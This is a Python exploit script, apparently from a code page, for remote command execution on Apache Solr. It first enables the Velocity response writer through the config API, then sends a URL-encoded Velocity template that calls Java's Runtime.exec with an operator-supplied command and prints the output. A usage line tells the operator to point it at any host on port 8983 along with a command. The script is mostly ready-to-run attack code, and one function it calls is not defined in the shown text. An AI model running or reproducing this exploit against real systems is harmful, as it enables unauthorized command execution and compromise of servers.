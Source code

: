     def update_queryresponsewriter(core_name_url):
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/json',
        'Content-Length': '259',
        'Connection': 'close'
        }
        payload = '''
        {
          "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
          }
        }'''
        proxies = {"http":"http://127.0.0.1:8080"}
        r = requests.post(core_name_url,headers=headers,data=payload)
        # r = requests.post(core_name_url,headers=headers,data=payload,proxies=proxies)
        if r.status_code == 200 and 'responseHeader' in r.content:
            print "[+] maybe enable Successful!"
            exp_url = core_name_url[:-7]
            cmd = 'whoami'
            cmd = sys.argv[2]

            send_exp(exp_url,cmd)
        else:
            print "[+] Enable Fail!\n"
    def send_exp(exp_url,cmd):
        exp_url = exp_url + r"/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + r"%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
        proxies = {"http":"http://127.0.0.1:8080"}
        r = requests.get(exp_url)
        # r = requests.get(exp_url,proxies=proxies)
        if r.status_code == 400 or r.status_code == 500  or r.status_code ==200 and len(r.content) >0:
            print ">>> [+] Exp Send Successful! <<<"
            print "____________________________________________________________"
            print '\n',exp_url,'\n'
            print '>>>>>>>\n',r.content
        else:
            print "[+] EXP No Send Successful!\n"
    if __name__ == '__main__':
        if len(sys.argv) != 3:
            sys.exit("\n [+] Usage:  python %s http://x.x.x.x:8983  command\n" % sys.argv[0])
        else:
            # url = "http://192.168.5.86:8983"
            url = sys.argv[1]
            get_code_name(url)
        